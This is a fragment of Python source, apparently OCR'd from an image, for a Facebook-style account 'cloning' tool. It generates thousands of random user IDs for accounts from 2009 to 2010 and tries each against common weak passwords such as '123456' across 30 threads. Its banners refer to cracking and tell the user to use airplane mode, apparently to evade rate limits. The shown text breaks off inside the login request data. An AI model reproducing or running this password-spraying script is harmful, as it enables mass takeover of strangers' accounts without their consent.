 
def old_Tree():
    """
    Cloning method for accounts from 2009-2010.
    """
    user = []
    ____banner____()
    print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mOLD CODE {Y}:{G} 2009-2010")
    ask = input(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mSELECT {Y}:{G} ")
    linex()
    ____banner____()
    print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mEXAMPLE {Y}:{G} 20000 / 30000 / 99999")
    limit = input(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mTOTAL ID COUNT {Y}:{G} ")
    linex()
    prefix = '1000004'
    for _ in range(int(limit)):
        suffix = ''.join(random.choices('0123456789', k=8))
        uid = prefix + suffix
        user.append(uid)
    print('       \x1b[38;5;196m(\x1b[1;37mA\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mMETHOD A')
    print('       \x1b[38;5;196m(\x1b[1;37mB\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mMethod B')
    linex()
    meth = input(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mCHOICE {W}(A/B): {Y}").strip().upper()
    with tred(max_workers=30) as pool:
        ____banner____()
        print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mTOTAL ID FROM CRACK {Y}: {G}{limit}{W}")
        print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mUSE AIRPLANE MOD FOR GOOD RESULT{G}")
        linex()
        for uid in user:
            if meth == 'A':
                pool.submit(login_1, uid)
            elif meth == 'B':
                pool.submit(login_2, uid)
            else:
                print(f"    {rad}[!] INVALID METHOD SELECTED")
                break


def login_1(uid):
    """
    Login attempt method 1.
    """
    global loop
    session = requests.session()
    try:
        sys.stdout.write(f"\r\r\x1b[1;37m\x1b[38;5;196m+\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mAHB-M1\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[38;5;192m{loop}\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mOK\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[38;5;192m{len(oks)}\x1b[38;5;196m)")
        sys.stdout.flush()
        for pw in ('123456', '1234567', '12345678', '123456789'):
            data = {
                'adid': str(uuid.uuid4()),
                'format': 'json',
                'device_id': str(uuid.uuid4()),
                'cpl': 'true',